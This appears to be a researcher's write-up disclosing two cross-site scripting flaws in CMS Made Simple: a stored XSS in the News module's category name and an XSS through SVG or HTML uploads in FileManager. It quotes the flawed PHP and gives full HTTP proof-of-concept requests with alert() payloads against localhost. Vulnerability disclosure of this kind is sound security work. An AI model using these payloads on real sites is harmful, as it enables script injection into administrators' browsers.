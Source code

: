 One day I felt like reviewing the source code of some random CMS and I picked CMSMS. This is totally random and I did this to kill boredom.

## Stored XSS

In Setting-New module,you can add category,there is no XSS filtering, resulting in storage-type XSS generation. 
file modules/New/action.addcategory.php,line10~line29.  
    ```` 
    
    $name = trim($params['name']);
    //if( $parent == 0 ) $parent = -1;
    $name = trim($params['name']);
    if ($name != '') {
    $query = 'SELECT news_category_id FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ? AND news_category_name = ?';
    $tmp = $db->GetOne($query,array($parent,$name));
    if( $tmp ) {
    echo $this->ShowErrors($this->Lang('error_duplicatename'));
    }
    else {
    $query = 'SELECT max(item_order) FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ?';
    $item_order = (int)$db->GetOne($query,array($parent));
    $item_order++;
    $catid = $db->GenID(CMS_DB_PREFIX."module_news_categories_seq");
    $query = 'INSERT INTO '.CMS_DB_PREFIX.'module_news_categories (news_category_id, news_category_name, parent_id, item_order, create_date, modified_date) VALUES (?,?,?,?,NOW(),NOW())';
    $parms = array($catid,$name,$parent,$item_order);
    $db->Execute($query, $parms);
    ````  
The parameter name insert into the database without filtering。

### POC  
    ````
    POST /admin/moduleinterface.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 143
    Referer: http://127.0.0.1/
    Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
    Connection: close
    Upgrade-Insecure-Requests: 1
    mact=News%2Cm1_%2Caddcategory%2C0&_sk_=98cf4d97037a4df557b&m1_name=%3Csvg%2F+onload%3Dalert%281%29%3E&m1_parent=-1&m1_submit=%E6%8F%90%E4%BA%A4
    
    ````
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/94376829.jpg)
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/48134010.jpg)
    
## FILE UPLOAD XSS  
In file manager,user can upload any files other than php。If the file ends with html, svg, it can Cause XSS.
file modules/FileManager/action.upload.php,line10~line29.  
    
    protected function is_file_acceptable( $file )
    {
      $config = \cms_config::get_instance();
      if( !$config['developer_mode'] ) {
          $ext = strtolower(substr(strrchr($file, '.'), 1));
          if( startswith($ext,'php') || endswith($ext,'php') ) return FALSE;
      }
      return TRUE;
  }
  
  It only intercepts PHP files.
  
  

### poc
   ```
   POST /admin/moduleinterface.php HTTP/1.1
   Host: 127.0.0.1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
   Accept: application/json, text/javascript, */*; q=0.01
   Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
   X-Requested-With: XMLHttpRequest
   Referer: http://127.0.0.1/
   Content-Length: 865
   Content-Type: multipart/form-data;
   boundary=---------------------------135822859015495
   Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
   Connection: close
   -----------------------------135822859015495
   Content-Disposition: form-data; name="mact"
   FileManager,m1_,upload,0
   -----------------------------135822859015495
   Content-Disposition: form-data; name="_sk_"
   98cf4d97037a4df557b
   -----------------------------135822859015495
   Content-Disposition: form-data; name="disable_buffer"
   1
   -----------------------------135822859015495
   Content-Disposition: form-data; name="m1_files[]"; filename="svg.svg"
   Content-Type: image/png
   <svg id="rectangle"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:xlink="http://www.w3.org/1999/xlink"
   width="100" height="100">
   <foreignObject width="100" height="50"
   requiredExtensions="http://www.w3.org/1999/xhtml">
   <embed xmlns="http://www.w3.org/1999/xhtml" 
   src="javascript:alert('xss')" />
   </foreignObject>
   </svg>
   -----------------------------135822859015495--
   ```

![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/40567149.jpg)

    
